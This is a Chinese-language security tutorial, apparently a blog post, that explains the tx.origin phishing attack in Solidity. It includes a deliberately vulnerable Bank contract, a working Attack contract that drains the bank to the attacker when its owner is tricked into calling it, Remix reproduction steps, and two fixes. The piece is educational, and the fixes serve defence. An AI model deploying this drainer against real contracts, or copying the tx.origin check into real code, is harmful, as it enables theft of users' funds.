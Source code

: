 ```yaml
---
title: "合约安全：如何使用 tx.origin 进行钓鱼攻击"
slug: solidity-smart-contract-security-tx-origin
date: 2022-11-13T11:12:14+08:00
draft: false
author: "5oneXj"

categories: ["合约安全"]
tags: ["solidity", "security"]
---
```


## 1 tx.origin 钓鱼攻击

笔者上初中的时候特别喜欢玩游戏，但是项目方为了防止未成年人沉迷，规定只有身份证号显示已满十八岁的玩家才不受防沉迷限制。这该怎么办呢？后来笔者使用家长的身份证号进行年龄验证，并成功绕过了防沉迷系统。这个案例与`tx.origin`钓鱼攻击有着异曲同工之妙。

在`solidity`中，使用`tx.origin`可以获得启动交易的原始地址，它与`msg.sender`十分相似，下面我们用一个例子来区分它们之间不同的地方。

如果用户A调用了B合约，再通过B合约调用了C合约，那么在C合约看来，`msg.sender`就是B合约，而`tx.origin`就是用户A。

![](https://raw.githubusercontent.com/jollysone/Picture-Library/master/blog/202302252231242.png)

因此如果一个银行合约使用了`tx.origin`做身份认证，那么黑客就有可能先部署一个攻击合约，然后再诱导银行合约的拥有者调用，即使`msg.sender`是攻击合约地址，但`tx.origin`是银行合约拥有者地址，那么转账就有可能成功。

## 2 漏洞合约例子

### 2.1 银行合约

我们先看银行合约，它非常简单，包含一个`owner`状态变量用于记录合约的拥有者，包含一个构造函数和一个`public`函数：

- 构造函数: 在创建合约时给`owner`变量赋值.
- `transfer()`: 该函数会获得两个参数`_to`和`_amount`，先检查`tx.origin == owner`，无误后再给`_to`转账`_amount`数量的ETH。**注意：这个函数有被钓鱼攻击的风险！**

```solidity
contract Bank {
    address public owner;//记录合约的拥有者

    //在创建合约时给 owner 变量赋值
    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        //检查消息来源 ！！！ 可能owner会被诱导调用该函数，有钓鱼风险！
        require(tx.origin == owner, "Not owner");
        //转账ETH
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### 2.2 攻击合约

然后是攻击合约，它的攻击逻辑非常简单，就是构造出一个`attack()`函数进行钓鱼，将银行合约拥有者的余额转账给黑客。它有`2`个状态变量`hacker`和`bank`，分别用来记录黑客地址和要攻击的银行合约地址。

它包含`2`个函数：

- 构造函数:初始化`bank`合约地址.
- `attack()`：攻击函数，该函数需要银行合约的`owner`地址调用，`owner`调用攻击合约，攻击合约再调用银行合约的`transfer()`函数，确认`tx.origin == owner`后，将银行合约内的余额全部转移到黑客地址中。

```solidity
contract Attack {
    // 受益者地址
    address payable public hacker;
    // Bank合约地址
    Bank bank;

    constructor(Bank _bank) {
        //强制将address类型的_bank转换为Bank类型
        bank = Bank(_bank);
        //将受益者地址赋值为部署者地址
        hacker = payable(msg.sender);
    }

    function attack() public {
        //诱导bank合约的owner调用，于是bank合约内的余额就全部转移到黑客地址中
        bank.transfer(hacker, address(bank).balance);
    }
}
```

### 2.3 Remix复现

**1.** 先将`value`设置为10ETH，再部署 `Bank` 合约，拥有者地址 `owner` 被初始化为部署合约地址。

![](https://raw.githubusercontent.com/jollysone/Picture-Library/master/blog/202302252232828.png)

**2.** 切换到另一个钱包作为黑客钱包，填入要攻击的银行合约地址，再部署 `Attack` 合约，黑客地址 `hacker` 被初始化为部署合约地址。

![](https://raw.githubusercontent.com/jollysone/Picture-Library/master/blog/202302252232460.png)

**3.** 切换回`owner`地址，此时我们被诱导调用了`Attack`合约的`attack()`函数，可以看到`Bank`合约余额被掏空了，同时黑客地址多了10ETH.

![](https://raw.githubusercontent.com/jollysone/Picture-Library/master/blog/202302252233064.png)

## 3 预防办法

目前主要有两种办法来预防可能的`tx.origin`钓鱼攻击。

### 3.1 使用`msg.sender`代替`tx.origin`

`msg.sender`能够获取直接调用当前合约的调用发送者地址，通过对`msg.sender`的检验，就可以避免整个调用过程中混入外部攻击合约对当前合约的调用

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{value: _amount}("");
  require(sent, "Failed to send Ether");
}
```

### 3.2 检验`tx.origin == msg.sender`

如果一定要使用`tx.origin`，那么可以再检验`tx.origin`是否等于`msg.sender`，这样也可以避免整个调用过程中混入外部攻击合约对当前合约的调用。但是副作用是其他合约将不能调用这个函数。

```solidity
function transfer(address payable _to, uint _amount) public {
    require(tx.origin == owner, "Not owner");
    require(tx.origin == msg.sender, "can't call by external contract");
    (bool sent, ) = _to.call{value: _amount}("");
    require(sent, "Failed to send Ether");
}
```

## 4 总结

这一讲，我们介绍了智能合约中的`tx.origin`钓鱼攻击，目前有两种方法可以预防它：一种是使用`msg.sender`代替`tx.origin`；另一种是同时检验`tx.origin == msg.sender`。推荐使用第一种方法预防，因为后者会拒绝所有来自其他合约的调用。